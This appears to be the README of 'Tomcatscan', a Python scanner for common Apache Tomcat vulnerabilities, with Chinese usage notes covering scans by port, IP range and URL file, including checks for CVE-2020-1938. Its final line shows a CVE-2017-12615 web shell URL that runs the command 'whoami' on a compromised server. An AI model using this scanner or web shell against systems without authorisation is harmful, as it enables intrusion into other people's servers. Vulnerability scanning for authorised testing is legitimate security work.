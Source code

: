 # Tomcatscan
Tomcat common vulnerability detection

python3 Tomcatscan.py -u xxx -p xx  //对指定端口进行漏洞探测，同时会检测8009端口cve-2020-1938漏洞


python TomcatScan.py -H 192.168.1.1-192.168.2.255 //默认检测8080，8081，80，443，8009端口，如需深入探测，可以先利用信息收集工具收集tomcat url保存到文件中后通过 -f参数检测


python TomcatScan.py -f url.txt
#-f 参数 文件中ip的几种格式：

http://192.168.1.1:8080 ##检测8080端口，同时检测8009端口是否存在cve_2020_1938

http://192.168.1.1          ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

https://192.168.1.1        ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

192.168.1.1                   ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

192.168.1.1:8080         ##检测8080端口和443端口，同时检测8009端口是否存在cve_2020_1938


cve-2017-12615 shell利用：访问并执行命令
http://192.168.3.137:8080/1635405387.jsp?&pwd=023&cmd=whoami
